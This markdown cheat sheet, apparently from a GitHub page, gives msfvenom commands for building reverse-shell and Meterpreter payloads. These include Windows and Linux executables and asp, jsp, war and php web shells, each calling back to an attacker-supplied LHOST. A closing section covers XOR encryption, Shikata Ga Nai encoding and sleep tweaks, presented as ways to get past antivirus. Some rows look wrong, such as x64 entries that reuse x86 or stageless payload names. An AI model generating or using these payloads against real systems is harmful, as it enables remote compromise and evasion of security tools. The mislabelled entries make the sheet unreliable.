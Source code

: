 ## Non-Meterpreter Reverse Shells

**Stageless** Payloads for Windows (Works with netcat)

| x86  | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |

**Stageless** Payloads for Linux (Works with netcat)

| x86  | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |

**Staged** Payloads for Windows

| x86  | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |

**Staged** Payloads for Linux

| x86  | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |

------


## Non-Meterpreter Web Payloads

| asp  | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp` |
| ---- | ------------------------------------------------------------ |
| jsp  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp` |
| war  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war` |
| php  | `msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php` |

------

## Meterpreter Binaries


**Staged** Payloads for Windows

| x86  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |

**Staged** Payloads for Linux

| x86  | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |

**Stageless** Payloads for Linux

| x86  | `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf` |

**Stageless** Payloads for Windows

| x86  | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |



------

## Meterpreter Web Payloads

| asp  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp` |
| ---- | ------------------------------------------------------------ |
| jsp  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp` |
| war  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war` |
| php  | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php` |

----

## Payload Encryption and Customization

### Payload Encryption

To obfuscate the payload and evade (some) antivirus detection, you can use payload encryption.

**Example: Encrypting a payload**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe --encrypt xor --encrypt-key <KEY> > encrypted_shell.exe
```

Replace <KEY> with a custom key for XOR encryption.



### Payload Customization

Use various obfuscation techniques to make your payload less detectable by security tools.

**Example - Obfuscating a payload with Shikata Ga Nai**

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -e x86/shikata_ga_nai > obfuscated_shell.exe
```



Consider adjusting payload properties to fit specific scenarios. For example, changing the sleep time to delay beacon intervals.

**Example -Modifying sleep time for a Windows reverse shell**

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe --platform windows --arch x86 --smallest --encrypt xor --encrypt-key <KEY> --sleep 10 > custom_shell.exe
```

Replace `<KEY>` with a custom key and adjust the sleep time as needed.

